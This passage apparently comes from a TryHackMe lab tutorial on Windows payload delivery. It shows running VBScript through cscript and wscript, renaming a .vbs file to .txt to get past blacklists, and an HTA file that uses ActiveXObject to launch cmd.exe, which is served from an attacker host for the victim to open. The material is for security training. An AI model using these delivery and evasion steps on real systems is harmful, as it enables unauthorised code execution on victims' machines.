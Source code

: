 We can also run it viaÂ cscriptÂ as follows,


```shell-session
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs
```

As a result, the Windows calculator will appear on the Desktop.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/8c7cbe29ee437b83a244994621cf6996.png)  

Another trick. If the VBS files are blacklisted, then we can rename the file toÂ .txtÂ file and run it usingÂ wscriptÂ as follows,  


```shell-session
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

The result will be as exact as executing theÂ vbsÂ files, which run theÂ calc.exeÂ binary.  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/f6d6a5f824fa64750e8b15ce6ba07a7a.png)


# An HTML Application - HTA
------

HTAÂ stands for â€œHTML Application.â€ It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered.Â HTML Applications, also known as HTAs, which are dynamicÂ HTMLÂ pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) toolÂ mshtaÂ is used to executeÂ HTAÂ files. It can be executed by itself or automatically from Internet Explorer.Â 

In the following example, we will use anÂ [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX)Â in our payload as proof of concept to executeÂ cmd.exe. Consider the following HTML code.

```javascript
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve theÂ payload.htaÂ from a web server, this could be done from the attacking machine as follows,


```shell-session
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

On the victim machine, visit the malicious link using Microsoft Edge,Â http://10.8.232.37:8090/payload.hta. Note that theÂ 10.8.232.37Â is the AttackBox's IP address.
